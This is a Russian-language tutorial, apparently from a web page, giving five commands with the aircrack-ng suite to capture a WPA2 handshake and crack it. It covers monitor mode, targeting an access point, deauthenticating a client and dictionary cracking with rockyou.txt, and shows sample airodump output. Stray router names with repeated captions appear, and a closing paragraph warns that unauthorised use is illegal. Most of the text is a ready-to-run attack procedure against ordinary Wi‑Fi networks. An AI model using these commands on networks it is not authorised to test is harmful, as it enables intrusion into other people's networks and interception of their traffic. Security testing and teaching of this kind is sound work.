

🗲 AIRCRACK В ДЕЛЕ 🗲
5 шагов к захвату handshake
Всё делается в терминале от root (или под sudo). Убедись, что Wi‑Fi адаптер поддерживает режим монитора.
ШАГ 1. Включаем монитор-режим
user@arch ~❯ sudo airmon-ng start wlan0
airmon-ng start — переводит интерфейс wlan0 в режим монитора (появится wlan0mon).
ШАГ 2. Смотрим эфир
user@arch ~❯ sudo airodump-ng wlan0mon
airodump-ng — показывает все точки доступа и клиенты в радиусе действия.
ШАГ 3. Фокусируемся на цели
user@arch ~❯ sudo airodump-ng -c 6 --bssid 00:1A:2B:3C:4D:5E -w capture wlan0mon
-c 6 — канал 6, --bssid — MAC точки, -w capture — сохранять данные в файл capture.
ШАГ 4. Деаутентификация (заставляем клиента переподключиться)
user@arch ~❯ sudo aireplay-ng -0 2 -a 00:1A:2B:3C:4D:5E -c AA:BB:CC:DD:EE:FF wlan0mon
-0 2 — отправить 2 пакета деаутентификации, -a — MAC точки, -c — MAC клиента (если не указывать, то широковещательно).
ШАГ 5. Взлом словарём
user@arch ~❯ sudo aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt
-w — путь к словарю (rockyou.txt — классический набор паролей).
user@arch ~❯ sudo airodump-ng wlan0mon
BSSID PWR Beacons #Data #/s CH MB ENC CIPHER AUTH ESSID
00:1A:2B:3C:4D:5E -45 123 42 0 6 54e WPA2 CCMP PSK HomeNetwork
BSSID STATION PWR Rate Lost Frames Probe
00:1A:2B:3C:4D:5E AA:BB:CC:DD:EE:FF -51 1e-1e 0 2
[WPA Handshake: 00:1A:2B:3C:4D:5E]
BSSID PWR Beacons #Data #/s CH MB ENC CIPHER AUTH ESSID
00:1A:2B:3C:4D:5E -45 123 42 0 6 54e WPA2 CCMP PSK HomeNetwork
BSSID STATION PWR Rate Lost Frames Probe
00:1A:2B:3C:4D:5E AA:BB:CC:DD:EE:FF -51 1e-1e 0 2
[WPA Handshake: 00:1A:2B:3C:4D:5E]
⏺ После четвёртого шага появится надпись [WPA Handshake] — можно брутить.
Полезные опции aircrack
| Команда | Описание |
|---|---|
| -w словарь | Указать путь к словарю |
| -b BSSID | Атака только на конкретную точку |
| -e ESSID | Фильтр по имени сети |
| -p | Использовать PTW-атаку (для WEP) |
🗝 Пример подбора пароля, через aircrack-ng 🗝

ASUS ROG Rapture GT-AXE16000
дорогой, быстрый, но не безопасный
дорогой, быстрый, но не безопасный

Digma DWR-N301
самый дешевый роутер
самый дешевый роутер
Применение инструмента для взлома чужих сетей без разрешения владельца незаконно и может повлечь за собой административную ответственность. А за эксплуатацию уязвимостей в сети, взлом устройств и сниффинг - это уже уголовное (Статья 272,273,274) сроком до 4 лет.